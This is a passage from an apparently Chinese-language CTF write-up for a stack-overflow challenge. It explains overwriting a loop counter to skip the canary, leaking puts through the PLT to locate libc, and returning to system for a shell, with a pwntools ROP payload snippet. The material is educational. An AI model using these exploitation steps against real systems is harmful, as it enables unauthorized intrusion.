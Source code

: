 ## 利用思路
1. 通过溢出点覆盖i为0x54，实现溢出并且跳过canary
2. 返回地址为put_plt,将put地址泄露出来，获取libc
3. 同样利用溢出覆盖返回地址为system，拿到shell
## 覆盖技计数i，实现溢出和跳过canary
可以构造下面payload：
```python
    pop_rdi = 0x0000000000400823
    ret = 0x400566
    main_addr = 0x400743
    puts_got = elf.got["puts"]
    puts_plt = elf.plt["puts"]
    ru("?\n")
    buff = "A" * 0x40 + p32(0x123454) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
```
可以调试可以看到循环read(buf[i])的时候,i存在buf+0x40处：

![](https://github.com/1094093288/IMG/blob/master/Pwn/noleak_stack/assets/9.png)

可以看到i被存在buf+0x40处，当覆盖到0x40时，可以将i覆盖成0x54，跳过canary，这里0x54选取有一定技巧，刚好跳过canary，且指向buf+0x55(rbp+5)的地方：
